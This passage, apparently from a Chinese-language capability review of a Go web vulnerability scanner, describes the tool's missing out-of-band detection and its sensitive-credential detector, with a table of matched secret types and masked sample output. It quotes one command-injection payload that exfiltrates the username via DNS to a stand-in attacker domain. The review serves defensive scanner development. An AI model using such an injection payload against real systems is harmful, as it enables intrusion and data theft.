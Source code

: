2. **带外检测**:
   ```go
   // 缺失：DNS外带、HTTP外带检测
   payload := "; nslookup `whoami`.attacker.com"
   // ❌ 没有DNS监听服务
   ```

---

## 🔍 敏感信息检测

### ✅ 已支持（唯一的检测功能）

**代码位置**: `core/sensitive_info_detector.go`

#### 检测内容（30+种）

| 类型 | 检测内容 | 严重程度 |
|------|---------|---------|
| **云服务凭证** | AWS Key, Google API Key, 阿里云Key | HIGH |
| **认证信息** | JWT Token, API Key, Authorization | HIGH |
| **私钥** | RSA Private Key, SSH Private Key | HIGH |
| **数据库** | 连接字符串、密码 | HIGH |
| **个人信息** | 身份证、手机号、邮箱 | MEDIUM |
| **内网信息** | 内网IP、端口 | MEDIUM |
| **调试信息** | Stack Trace, 源码路径 | LOW |

#### 工作方式

```go
// 自动扫描HTML内容和HTTP头
findings := sensitiveDetector.Scan(htmlContent, url)

// 输出示例:
[敏感信息] ⚠️  发现 3 处高危敏感信息！
  - AWS Access Key: AKIA****************
  - API Key: sk_live_**************
  - Database Password: ********
```

**特点**:
- ✅ 这是唯一真正具有"检测"能力的模块
- ✅ 使用正则模式匹配
- ✅ 自动脱敏显示
- ✅ 分级报告

---

## 📊 完整能力矩阵

